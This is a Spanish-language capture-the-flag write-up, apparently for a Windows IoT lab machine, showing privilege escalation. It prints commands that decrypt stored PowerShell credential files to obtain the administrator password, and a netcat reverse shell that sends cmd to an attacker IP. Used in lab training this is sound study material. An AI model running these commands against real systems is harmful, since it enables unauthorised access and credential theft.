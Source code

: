 Ya tenemos la flag.

## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
dir
```

Aqui vemos un fichero un poco raro llamado iot-admin.xml y el contenido tambien es un secret string.

```bash
(Import-CliXml -Path iot-admin.xml).GetNetworkCredential().password
```

Ya vemos un password para el usuario admin. Intentamos connectar al Windows Device Portal con el usuario administrator y
podemos connectarnos. Esto significa que vamos a hacer lo mismo que con el usuario app.

1. Nos ponemos en escuchar por el puerto 443

    ```bash
    rlwrap nc -nlvp 443
    ```

1. Lanzamos el ncat previamente uploadeado en el systema

    ```bash
    C:\Windows\System32\spool\drivers\color\nc64.exe -e cmd 10.10.14.8 443
    ```

Ya somos el usuario Administrator y intentamos ejecutar la operacion cryptografica para leer la flag.

```bash
cd C:\Data\administrator
powershell
(Import-CliXml -Path root.txt)
(Import-CliXml -Path root.txt).GetNetworkCredential()
(Import-CliXml -Path user.txt).GetNetworkCredential().password
```

Ya tenemos la flag del usuario Administrator.


